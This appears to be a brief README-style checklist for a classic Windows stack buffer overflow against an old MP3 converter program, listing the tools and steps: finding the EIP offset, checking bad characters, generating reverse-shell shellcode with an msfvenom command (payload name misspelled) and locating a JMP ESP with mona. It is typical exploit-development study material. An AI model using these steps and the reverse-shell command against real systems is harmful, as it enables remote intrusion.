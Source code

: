 # Windows
## Requirements
1. Win 7 x86
2. immunity debugger
3. mona.py
4. easy rm to mp3 converter
## Steps
1. offset to EIP
2. find bad characters
3. generate shellcode

    msfvenom -p windows/shell_reverce_tcp LHOST=[IP], LPORT=[port] -f [python] -b "[\x00\x0a\x09]"
4. !mona modules
5. !mona jmp -r esp -m "[*.dll]"
6. result to 'EIP'